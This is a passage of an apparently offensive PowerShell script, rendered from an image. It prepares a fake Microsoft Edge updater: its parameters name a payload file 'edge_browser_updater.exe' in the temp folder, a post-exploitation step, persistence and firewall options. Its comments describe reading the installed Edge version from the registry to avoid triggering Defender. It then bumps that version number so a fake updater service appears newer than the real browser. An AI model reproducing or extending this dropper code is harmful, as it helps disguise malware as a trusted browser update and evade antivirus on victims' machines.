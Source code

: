 ```powershell

   Name              : Microsoft.MicrosoftEdge
   Publisher         : CN=Microsoft Corporation, O=Microsoft Corporation, L=Redmond, S=Washington, C=US
   Architecture      : Neutral
   ResourceId        :
   Version           : 44.19041.964.0
   PackageFullName   : Microsoft.MicrosoftEdge_44.19041.964.0_neutral__8wekyb3d8bbwe
   InstallLocation   : C:\Windows\SystemApps\Microsoft.MicrosoftEdge_8wekyb3d8bbwe
   IsFramework       : False
   PackageFamilyName : Microsoft.MicrosoftEdge_8wekyb3d8bbwe
   PublisherId       : 8wekyb3d8bbwe
   IsResourcePackage : False
   IsBundle          : False
   IsDevelopmentMode : False
   NonRemovable      : True
   IsPartiallyStaged : False
   SignatureKind     : System
   Status            : Ok
#>


## Non-Positional cmdlet named parameters
[CmdletBinding(PositionalBinding=$false)] param(
   [string]$OutFile="$Env:TMP\edge_browser_updater.exe",
   [string]$PostExploit='True',
   [string]$Persiste="False",
   [string]$Firewall='False'
)


## Global variable declarations!
# Credits to website: https://ss64.com/ps/messagebox.html
Add-Type -AssemblyName PresentationCore,PresentationFramework
$ParseExePath = $OutFile.Split('\\')[-1]             ## edge_browser_updater.exe
$PayloadRPath = $OutFile -replace "$ParseExePath","" ## C:\Users\pedro\AppData\Local\Temp\
$IsClientAdmin = [bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")
## Query medge binary for version number triggers defender, so .. (obfuscate it)!
$FoolAv = (Get-ItemProperty -Path "HKCU:SOFTWARE\AppDataLow\Software\Microsoft\Edge\IEToEdge" -EA SilentlyContinue).LastStubPath
If(-not($FoolAv) -or $FoolAv -eq $null)
{

   ## Make sure we have a version returned!
   $MEdgeVersion = "91.0.864.42" ## Latest version know!

}Else{## parsing medge version data!

   $RawObject = $FoolAv.Split('\\')
   $MEdgeVersion = $RawObject | Where-Object {
      $_ -iMatch '^(\d+.+\d+.+\d+.+\d+)$'
   }

}


## Aritemetic function that add's a number up to msedge
# installed version number, this way MEdgeUpdaterService
# version will be allways a number up to the installed version!
[int]$Somaart = $MEdgeVersion.split('.')[-1]         ## 41
$parseData = $MEdgeVersion -replace "$Somaart",""    ## 91.0.864.
$adiciona1 = $Somaart + 1                            ## 42
```